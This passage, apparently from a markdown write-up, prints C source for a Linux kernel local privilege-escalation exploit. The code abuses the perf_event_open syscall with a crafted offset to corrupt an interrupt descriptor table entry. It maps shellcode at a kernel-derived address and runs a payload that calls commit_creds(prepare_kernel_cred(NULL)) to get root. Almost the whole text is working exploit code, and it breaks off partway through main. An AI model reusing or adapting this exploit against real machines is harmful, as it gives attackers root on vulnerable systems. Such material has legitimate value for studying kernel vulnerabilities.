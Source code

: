 ```c

void __attribute__((regparm(3))) payload() {
	uint32_t *fixptr = (void*)AB(1);
	// restore the handler
	*fixptr = -1;
	commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
	prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
	commit_creds(prepare_kernel_cred((uint64_t)NULL));
}

void trigger(uint32_t off) {
	uint64_t buf[10] = { 0x4800000001, off, 0, 0, 0, 0x300 };
	int fd = syscall(298, buf, 0, -1, -1, 0);
	assert( !close(fd) );
}

int main(int argc, char **argv) {
	uint64_t off64, needle, kbase, *p;
	uint8_t *code;
	uint32_t int_n, j = 5, target = 1337;
	int offset = 0;
	void *map;

	assert(argc == 2 && "target?");
	assert( (target = atoi(argv[1])) < 3 );

	struct {
		uint16_t limit;
		uint64_t addr;
	} __attribute__((packed)) idt;

	// mmap user-space block so we don't page fault
	// on sw_perf_event_destroy
	assert((map = mmap((void*)BASE, SIZE, 3, 0x32, 0,0)) == (void*)BASE);
	memset(map, 0, SIZE);

	asm volatile("sidt %0" : "=m" (idt));
	kbase = idt.addr & 0xff000000;
	printf("IDT addr = 0x%lx\n", idt.addr);

	assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
	memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &payload, 1024);
	memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);

	// can only play with interrupts 3, 4 and 0x80
	for (int_n = 3; int_n <= 0x80; int_n++) {
		for (off64 = 0x00000000ffffffff; (int)off64 < 0; off64--) {
			int off32 = off64;

			if ((targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)) {
				offset = off32;
				goto out;
			}
		}
		if (int_n == 4) {
			// shit, let's try 0x80 if the kernel is compiled with
			// CONFIG_IA32_EMULATION
			int_n = 0x80 - 1;
		}
	}
out:
	assert(offset);
	printf("Using int = %d with offset = %d\n", int_n, offset);
```

[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>